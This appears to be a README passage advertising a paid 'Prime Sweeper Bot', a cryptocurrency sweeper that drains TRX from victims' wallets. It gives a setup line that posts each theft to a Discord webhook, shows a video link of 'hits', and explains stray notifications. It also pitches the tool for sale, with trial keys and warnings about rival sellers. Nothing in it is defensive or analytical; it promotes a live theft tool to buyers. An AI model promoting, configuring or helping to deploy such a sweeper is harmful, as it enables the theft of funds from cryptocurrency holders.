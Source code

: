 
Get a Discord webhook from any channel you want to see notifications in every time you get a hit, add it to **line 40**
   axios.post('https://discord.com/api/webhooks/identifier') ; //replace link with your webhook
![imgur](https://imgur.com/wJTYhQz.png)

---
---

# <p align="center">⚠️ IMPORTANT ⚠️</p>  
**Just know that I've never seen an imposter script that implements multi-sig and Discord webhooks (It would make it a lot harder for them to ultimately steal all your money if they implemented multi-sig), but the scammers can still find a way to get it from you.**

**The only way you are guaranteed to get the legit script is buying it from the shop above. NOT from some jackoff on telegram who calls himself "MasterSwiper" or some shit like that. LOL**

**So what's more important to know is that my script does now implement Discord webhooks and multisig, so if someone is claiming to be selling you the Prime Sweeper Bot, but it doesn't include those, or they can't answer any questions about it, that's a huge red flag 🚩that they are a scammer and is most likely trying to sell you something with a backdoor!**  
Personally, I can give you a temporary key so you can even set it all up and see it working before you even pay. Then if you like it I give you a permanent version, if you don't I deactivate your temporary key. Simple as that, and you get a risk-free experience without the possibility of getting scammed!
 
---
---


If you are unable to complete these last steps, check the script guide or contact your seller/programmer. In the newest version of the sweeper, you will also have multisig support & the option to input a discord webhook so you get a notification every time you get a victim showing how much TRX was transferred and what the USD equivalent is.

Here's a video of the webhook results of an instance that hasn't even been spreading for two months:

https://github.com/TP-online/Crypto-Sweeper-Bot/assets/126422431/a8fc9360-61a8-4c7e-a273-83d6b5462ad0


FYI the reason you also see a bunch of $0.00 transactions in between the actual hits in the video is because the way the Tron network works is every time you send a token to someone else you almost instantly get these little "dividends" deposits back to your wallet which is a very very small percentage of what you just sent they end up being 0.000003 TRX which is equivalent to $0.00000036 USD or 36100000000 of a penny.
In other words it's "Thirty-six / one hundred-millionths" of a penny, and you get a few of those transactions back whenever you send some out. Each one of those is triggering the sweeper to send a webhook, but not in any amount big enough to round up to any number.

And that is my long winded explanation for why you see some $0.00 transaction notifications in between the actual hits.
